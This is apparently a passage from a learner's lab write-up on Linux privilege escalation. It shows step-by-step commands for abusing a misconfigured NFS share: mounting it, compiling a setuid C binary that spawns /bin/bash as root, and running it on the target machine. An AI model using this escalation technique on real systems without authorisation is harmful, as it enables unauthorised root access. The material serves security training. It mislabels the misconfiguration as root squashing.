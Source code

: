 ```shell
showmount -e [IP]
```

[![Root Access](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/59.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/59.png)

Next, mount the shared folder with the following commands:

```shell
mkdir /tmp/mount
mount -o rw,vers=2 10.10.158.65:/tmp /tmp/mount
```

Once mounted, you can compile and set permissions on a new executable:

```shell
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/mount/x.c
gcc /tmp/mount/x.c -o /tmp/mount/x
chmod +s /tmp/mount/x
```

Finally, execute the compiled binary on the victim’s machine to obtain a root shell:

```shell
/tmp/x
```

This method leverages NFS root squashing to escalate privileges.

